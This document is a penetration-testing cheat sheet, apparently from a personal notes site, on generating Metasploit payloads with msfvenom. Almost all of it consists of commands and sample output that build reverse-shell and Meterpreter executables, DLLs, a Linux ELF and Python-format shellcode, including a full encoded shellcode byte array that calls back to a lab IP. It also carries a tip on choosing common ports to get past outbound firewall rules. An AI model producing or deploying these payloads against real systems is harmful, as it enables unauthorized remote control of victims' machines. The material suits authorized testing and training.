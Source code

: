 ```yaml
---
title: "Metasploit Shellcode"
date: 2024-6-26
tags: ["Code Execution", "Metasploit", "Firewall", "Payload", "RCE", "Dll Hijacking", "Shellcode", "Reverse Shell", "Msfconsole", "Msfvenom"]
---
```


### Generate Shellcode

<small>*Note: stageless payload can catch with nc directly*</small>

#### Windows x64

{{< tab set1 tab1 >}}Staged exe{{< /tab >}}
{{< tab set1 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set1 tab3 >}}Staged dll{{< /tab >}}
{{< tab set1 tab4 >}}Stageless dll{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.dll
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

{{< /tabcontent >}}

#### Windows x86

{{< tab set2 tab1 >}}Staged exe{{< /tab >}}
{{< tab set2 tab2 >}}Stageless exe{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> EXITFUNC=thread > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 EXITFUNC=thread > rev.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

{{< /tabcontent >}}

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### Linux amd64

{{< tab set3 tab1 >}}Stageless elf{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > rev.elf
```

```console {class="sample-code"}
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f elf > rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

{{< /tabcontent >}}

#### Others

{{< tab set4 tab1 >}}Staged python{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=10.10.14.31 LPORT=1337
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 551 (iteration=0)
x64/xor chosen with final size 551
Payload size: 551 bytes
Final size of python file: 3088 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xc4\x65\xf0"
shellcode += b"\xfa\xa2\xb7\x5f\x27\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x38\x2d\x73\x1e\x52"
shellcode += b"\x5f\x93\x27\xc4\x65\xb1\xab\xe3\xe7\x0d\x76"
shellcode += b"\x92\x2d\xc1\x28\xc7\xff\xd4\x75\xa4\x2d\x7b"
shellcode += b"\xa8\xba\xff\xd4\x75\xe4\x28\xc1\x33\xea\x3c"
shellcode += b"\x2d\x77\x8c\x6a\x47\xb0\xe8\xff\x6e\xe7\x68"
shellcode += b"\x59\x91\x86\xa0\x9b\x7f\x66\x05\xac\xfd\xbb"
shellcode += b"\xa3\x76\xbd\xca\x96\x2d\x7b\xa8\x82\xf6\x0e"
shellcode += b"\xac\x86\x59\xb8\xfb\x72\xd1\xde\x5f\xdc\x6e"
shellcode += b"\xf2\xf5\x27\xc5\x5f\x27\xc4\xee\x70\x72\xa2"
shellcode += b"\xb7\x5f\x6f\x41\xa5\x84\x9d\xea\xb6\x8f\xac"
shellcode += b"\x8c\x7d\xa0\xbe\x29\xf7\x7f\x6e\xc5\xb5\x13"
shellcode += b"\xac\xea\x48\x96\x66\x4f\x51\x78\xb2\xa3\x61"
shellcode += b"\x12\x16\x0d\x2d\xc1\x3a\xe3\x76\x96\x2a\x68"
shellcode += b"\x24\xf1\x3b\x9a\x57\x2a\xd6\x88\x66\xbc\xde"
shellcode += b"\xaa\xf2\x66\xf6\xb1\xbd\xa8\xbe\x29\xf7\x7b"
shellcode += b"\x6e\xc5\xb5\x96\xbb\x29\xbb\x17\x63\x4f\x25"
shellcode += b"\xec\xb3\xa3\x67\x1e\xac\xc0\xed\xb8\xfb\x72"
shellcode += b"\xf6\x07\x66\x9c\x3b\xa9\xa0\xe3\xef\x1e\x7e"
shellcode += b"\x85\x3f\xb8\x79\x4e\x97\x1e\x75\x3b\x85\xa8"
shellcode += b"\xbb\xfb\xed\x17\xac\xd6\x8c\xbb\x05\x5d\x48"
shellcode += b"\x02\x6e\x7a\x12\x83\xc8\xfd\x84\x6d\x27\xc4"
shellcode += b"\x24\xa6\xb3\x2b\x51\x17\xa6\x28\xc5\xf1\xfa"
shellcode += b"\xa2\xfe\xd6\xc2\x8d\xd9\xf2\xfa\xa7\x8e\x55"
shellcode += b"\x2d\xca\x7a\xb1\xae\xeb\x3e\xbb\x6b\x4d\x94"
shellcode += b"\xb1\x40\xee\xc0\x79\x20\x3b\xb0\xbc\x73\x48"
shellcode += b"\xdf\x5e\x26\xc4\x65\xa9\xbb\x18\x9e\xdf\x4c"
shellcode += b"\xc4\x9a\x25\x90\xa8\xf6\x01\x77\x94\x28\xc1"
shellcode += b"\x33\xef\x86\x9f\x6f\x3b\xa5\xb8\x73\x60\xff"
shellcode += b"\xa0\xe7\x8c\xec\x31\xbb\x18\x5d\x50\xf8\x24"
shellcode += b"\x9a\x25\xb2\x2b\x70\x35\x37\x85\x3d\xbc\x73"
shellcode += b"\x40\xff\xd6\xde\x85\xdf\x69\x5f\xd6\xd6\xa0"
shellcode += b"\xf2\x41\xa5\x84\xf0\xeb\x48\x91\x52\x21\x8d"
shellcode += b"\x63\xfa\xa2\xb7\x17\xa4\x28\x75\xb8\x73\x40"
shellcode += b"\xfa\x6e\xee\xae\x61\xb1\xa2\xea\x3e\xa6\x66"
shellcode += b"\x7e\x67\x29\x32\xfd\x48\x8a\xa4\x3c\x65\x8e"
shellcode += b"\xaf\xea\x34\x9b\x07\x9a\xec\x06\x90\xe2\xf6"
shellcode += b"\x06\x4f\xc4\x75\xf0\xfa\xe3\xef\x17\xae\x36"
shellcode += b"\x2d\xc1\x33\xe3\x0d\x07\x83\x97\x80\x0f\x2f"
shellcode += b"\xea\x3e\x9c\x6e\x4d\xa2\xbd\xcb\x6b\xfe\xd6"
shellcode += b"\xd7\x8c\xec\x2a\xb2\x2b\x4e\x1e\x9d\xc6\xbc"
shellcode += b"\x38\xa5\x5d\x62\xdc\xdf\xc4\x18\xd8\xa2\xe3"
shellcode += b"\xe0\x06\x4f\xc4\x25\xf0\xfa\xe3\xef\x35\x27"
shellcode += b"\x9e\x24\x4a\xf1\x8d\xb8\x6f\xd8\x11\x32\xa9"
shellcode += b"\xbb\x18\xc2\x31\x6a\xa5\x9a\x25\xb3\x5d\x79"
shellcode += b"\xb6\x1b\x3b\x9a\x0f\xb2\xa3\x74\x17\x0e\x02"
shellcode += b"\x2d\x75\x0c\xd7\x03\x1e\xd8\x23\x3d\x9a\xfa"
shellcode += b"\xfb\xfe\x98\xe5\x34\xd0\x52\xac\x5d\x62\x5f"
shellcode += b"\x27"
```

{{< /tabcontent >}}
